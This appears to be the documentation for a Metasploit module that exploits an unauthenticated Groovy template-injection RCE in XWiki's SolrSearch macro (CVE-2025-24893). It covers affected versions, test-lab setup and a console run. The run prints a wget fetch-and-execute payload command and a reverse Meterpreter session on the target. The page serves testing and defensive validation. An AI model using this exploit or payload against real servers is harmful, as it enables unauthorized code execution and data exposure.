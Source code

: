 ## Vulnerable Application

This module exploits a template injection vulnerability in the the XWiki Platform.
XWiki includes a macro called SolrSearch (defined in Main.SolrSearchMacros) that enables full-text search through the embedded Solr engine. 
The vulnerability stems from the way this macro evaluates search parameters in Groovy, failing to sanitize or restrict malicious input.

This vulnerability affects XWiki Platform versions >= 5.3‑milestone‑2 and < 15.10.11, and versions >= 16.0.0‑rc‑1 and < 16.4.1.
Successful exploitation may result in the remote code execution under the privileges of the web server, potentially exposing sensitive data or disrupting survey operations.

An attacker can execute arbitrary system commands in the context of the user running the web server.

## Testing

### Setup a Linux Server to Host the XWiki

To set up a test environment:

1. Download and Install Ubuntu 18.04.6 LTS

Download the ISO from the official Ubuntu archive:
https://releases.ubuntu.com/18.04/

2. Install OpenJDK 17

```
wget https://github.com/adoptium/temurin17-binaries/releases/download/jdk-17.0.9%2B9/OpenJDK17U-jdk_x64_linux_hotspot_17.0.9_9.tar.gz
sudo mkdir -p /opt/java
sudo tar -xzf OpenJDK17U-jdk_x64_linux_hotspot_17.0.9_9.tar.gz -C /opt/java
export JAVA_HOME=/opt/java/jdk-17.0.9+9
export PATH=$JAVA_HOME/bin:$PATH
```

3. Download and Unpack Vulnerable XWiki

```
wget https://nexus.xwiki.org/nexus/content/groups/public/org/xwiki/platform/xwiki-platform-distribution-flavor-jetty-hsqldb/15.10.5/xwiki-platform-distribution-flavor-jetty-hsqldb-15.10.5.zip
```

```
unzip xwiki-platform-distribution-flavor-jetty-hsqldb-15.10.5.zip
```

4. Run XWiki

Go to the directory where you've unpack archive and run `start_xwiki.sh`

### Setup a Windows Server to Host XWiki

1. Download and Install Windows

Download Windows 10 ISO from the official Microsoft site:
https://www.microsoft.com/en-us/software-download/windows10

Follow standard installation steps in your hypervisor (e.g., VirtualBox, VMware, etc.).

2. Install OpenJDK 17

Download `.msi` file from this page

```
https://learn.microsoft.com/en-us/java/openjdk/download#openjdk-17
```

and install

3. Download and Unpack Vulnerable XWiki

```
https://nexus.xwiki.org/nexus/content/groups/public/org/xwiki/platform/xwiki-platform-distribution-flavor-jetty-hsqldb/15.10.5/xwiki-platform-distribution-flavor-jetty-hsqldb-15.10.5.zip
```

Open with 7-zip or another archiver and unpack

4. Run XWiki

Go to the directory where you've unpack archive and run `start_xwiki.bat`

## Scenario

```
msf6 > use multi/http/xwiki_unauth_rce_cve_2025_24893
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/xwiki_unauth_rce_cve_2025_24893) > set RHOSTS 192.168.19.136
RHOSTS => 192.168.19.136
msf6 exploit(multi/http/xwiki_unauth_rce_cve_2025_24893) > set RPORT 8080
RPORT => 8080
msf6 exploit(multi/http/xwiki_unauth_rce_cve_2025_24893) > run verbose=true

[*] Command to run on remote host: wget -qO ./oXsSiyiPG http://192.168.19.130:8080/TZr1rd35vcaOY2R1ivAgxA; chmod +x ./oXsSiyiPG; ./oXsSiyiPG &
[*] Fetch handler listening on 192.168.19.130:8080
[*] HTTP server started
[*] Adding resource /TZr1rd35vcaOY2R1ivAgxA
[*] Started reverse TCP handler on 192.168.19.130:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Extracting version...
[*] Extracted version: 15.10.5
[+] The target appears to be vulnerable.
[*] Building command for target...
[*] Uploading malicious payload...
[*] Client 192.168.19.136 requested /TZr1rd35vcaOY2R1ivAgxA
[*] Sending payload to 192.168.19.136 (Wget/1.19.4 (linux-gnu))
[*] Client 192.168.19.136 requested /TZr1rd35vcaOY2R1ivAgxA
[*] Sending payload to 192.168.19.136 (Wget/1.19.4 (linux-gnu))
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 192.168.19.136
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 192.168.19.136
[-] Failed to load client portion of stdapi.
[*] Meterpreter session 2 opened (192.168.19.130:4444 -> 192.168.19.136:36512) at 2025-08-23 23:42:12 -0400

[*] Meterpreter session 1 opened (192.168.19.130:4444 -> 192.168.19.136:36510) at 2025-08-23 23:42:12 -0400
meterpreter > sysinfo
Computer     : 192.168.19.136
OS           : Ubuntu 18.04 (Linux 5.4.0-150-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```